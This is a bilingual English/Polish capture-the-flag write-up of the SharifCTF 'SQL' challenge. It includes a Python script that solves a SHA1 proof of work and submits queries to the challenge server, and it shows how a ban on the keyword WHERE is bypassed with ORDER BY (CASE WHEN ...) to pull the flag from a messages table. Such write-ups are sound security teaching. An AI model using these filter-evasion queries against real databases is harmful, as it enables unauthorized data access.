

## SQL (Pwn, 150p)

> Our website executes your PostgreSQL queries. And flags are nicely formatted. 

###ENG
[PL](#pl-version)

We are given address of webpage that executes our queries on CTF database. There is flag we are looking for in that database. Looks like that challenge is trivial, doesn't it?



Unfortunatelly, there are two problems:
 * we have to present PoW (proof of work) before each request
 * query can't contain where, because otherwise engine will refuse to execute it

Whatever, we start with getting column and table names from information_schema. We used simple script for that:

```python
import requests, hashlib, time, sys

def query(sql):
    r=requests.get("http://ctf.sharif.edu:36455/chal/sql/")
    nonce=r.text.split("\n")[7].split(" ")[1]
    i=1
    s=""
    print "Looking for collision"
    start=time.time()
    while True:
        if i%1000000==0:
            print i
            print time.time()-start, "s"
        s=str(i)+nonce
        m=hashlib.sha1()
        m.update(s)
        if m.hexdigest()[0:5]=="00000":
            break
        i+=1
    print "Found collision: "+str(i)
    r=requests.post("http://ctf.sharif.edu:36455/chal/sql/", cookies=r.cookies,
            data={ "pow":str(i), "sql":sql } )
    print r.text
        

query(sys.argv[1])
```

Where may be forbidden, but ORDER BY is not, so we can easily substitute WHERE by it, using ORDER BY (CASE WHEN condition THEN 1 ELSE 0 END).

Implementing that idea...

    python hack.py "select * from messages order by (case when msg like '%Sharif%' then 1 else 0 end) desc"

    ...

    <td>95321145</td>
    <td>SharifCTF{f1c16ea7b34877811e4662101b6a0d30}</td>
    <td>1</td>

Chalegne solved

###PL version

Jest podany adres strony, która uruchamia nasze zapytania SQL na bazie CTFa. W bazie jest flaga. Czy może być prościej?


Niestety, są dwa utrudnienia:
 * trzeba przedstawiać PoW przed każdym requestem
 * zaptytanie nie może zawierać "WHERE" (bo inaczej jest odrzucane)

Tak czy inaczej, zaczynamy od zapytanie o kolumny i istniejące tabele (do tabeli information_schema), używając prostego skryptu:

```python
import requests, hashlib, time, sys

def query(sql):
    r=requests.get("http://ctf.sharif.edu:36455/chal/sql/")
    nonce=r.text.split("\n")[7].split(" ")[1]
    i=1
    s=""
    print "Looking for collision"
    start=time.time()
    while True:
        if i%1000000==0:
            print i
            print time.time()-start, "s"
        s=str(i)+nonce
        m=hashlib.sha1()
        m.update(s)
        if m.hexdigest()[0:5]=="00000":
            break
        i+=1
    print "Found collision: "+str(i)
    r=requests.post("http://ctf.sharif.edu:36455/chal/sql/", cookies=r.cookies,
            data={ "pow":str(i), "sql":sql } )
    print r.text
        

query(sys.argv[1])
```

O ile where jest zakazane, to ORDER BY nie jest, więc można łatwo uzyskać interesujący nas rekord używając ORDER BY (CASE WHEN warunek THEN 1 ELSE 0 END).

Implementując ten pomysł...

    python hack.py "select * from messages order by (case when msg like '%Sharif%' then 1 else 0 end) desc"

    ...

    <td>95321145</td>
    <td>SharifCTF{f1c16ea7b34877811e4662101b6a0d30}</td>
    <td>1</td>

Zadanie zrobione.
